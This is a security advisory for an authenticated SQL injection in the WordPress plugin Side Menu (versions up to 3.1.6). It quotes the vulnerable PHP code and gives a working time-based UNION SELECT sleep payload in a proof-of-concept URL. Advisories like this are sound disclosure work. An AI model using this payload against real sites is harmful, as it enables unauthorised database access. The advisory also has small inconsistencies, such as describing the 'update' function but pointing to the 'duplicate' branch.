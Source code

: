 # Side Menu <= 3.1.6 - Authenticated SQL Injection

## Description
    The menu update functionality of the plugin, available to Administrator users takes the id GET parameter and uses it into an SQL statement without proper sanitisation, validation or escaping, therefore leading to a SQL Injection issue.
    
## Affects Plugins
    Side Menu <= 3.1.6 (the latest version at this time)
    https://wordpress.org/plugins/side-menu/
## Author
    pang0lin@webray.com.cn inc
    
## Detail
    The issue is occured at file side-menu-lite/admin/partials/include-data.php. When the parameter $act equals to 'duplicate', the parameter id is derectly used by mysql select sql. 
```
if ( $act == "update" ) {
	$rec_id = absint( $_REQUEST["id"] );
	$result = $wpdb->get_row( "SELECT * FROM $data WHERE id=$rec_id" );
	if ( $result ) {
		$id         = $result->id;
		$title      = $result->title;
		$param      = unserialize( $result->param );
		$tool_id    = $id;
		$add_action = 2;
		$btn        = esc_attr__( 'Update', $this->plugin['text'] );
	}
} elseif ( $act == "duplicate" ) {
	$rec_id = $_REQUEST["id"];
	$result = $wpdb->get_row( "SELECT * FROM $data WHERE id=$rec_id" );
	if ( $result ) {
		$id    = "";
		$title = "";
		$param = unserialize( $result->param );
		$last  = $wpdb->get_col( "SELECT id FROM $data" );;
		$tool_id    = max( $last ) + 1;
		$add_action = 1;
		$btn        = esc_attr__( 'Save', $this->plugin['text'] );
	}
} else {
	$id         = "";
	$title      = "";
	$last  = $wpdb->get_col( "SELECT id FROM $data" );
	$tool_id    = !empty($last) ?  max( $last ) + 1 : 1;
	$param      = '';
	$add_action = 1;
	$btn        = esc_attr__( 'Save', $this->plugin['text'] );
}

```

## Proof of Concept
http://192.168.65.26/wp/wp-admin/admin.php?page=side-menu-lite&tab=add-new&act=duplicate&id=0 union select 1,2,sleep(5)
Visit this page, it will sleep more than 5 seconds.

![blockchain](https://github.com/pang0lin/CVEproject/blob/main/imgs/wordpress_side-menu_sqli.png "Wordpress plugin side-menu sqli")
